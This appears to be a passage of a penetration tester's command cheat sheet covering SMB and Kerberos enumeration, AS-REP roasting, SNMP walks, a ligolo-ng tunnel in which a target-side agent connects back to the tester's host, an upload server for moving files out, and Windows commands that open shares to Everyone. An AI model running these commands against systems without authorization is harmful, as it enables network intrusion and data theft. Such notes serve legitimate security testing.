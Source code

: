 ```bash

smbclient -N -L //$target
nxc smb $target -u "Guest" -p '' --shares
nxc smb $target -u '$user' -p '$pass' --users
nxc smb $target -u '$user' -p '$pass' --groups
impacket-smbclient [$domain]/$user:$password@$target


}}}


{{{ =-=kerberos =-=

kerbrute --dc $dc -d $domain userenum /usr/share/seclists/Usernames/Names/names.txt -o users.txt
impacket-GetNPUsers -usersfile users.txt $domain/

}}}



{{{ =-=snmp =-=

snmpwalk -v2c -c public $target

snmpwalk -v 2c -c public $target NET-SNMP-EXTEND-MIB::nsExtendOutputFull

}}}


}}}



{{{ =-=-=Transfer / Redir =-=-=


{{{ =-=ligolo-ng =-=

cd/opt/ligolo
sudo ./proxy -selfcert -laddr 0.0.0.0:443

##get agent to target
agent.exe -ignore-cert -connect $cb_ip:443


}}}

##web server with upload form/POST request friendly
python3 -m uploadserver 80
tools-upload.py

##jank windows
net user guest /active:yes
net share $share=$dir_to_share /GRANT:Everyone,FULL
Icacls $dir_to_share /grant Everyone:F /inheritance:e /T



}}}



{{{ =-=-=Linux =-=-=
```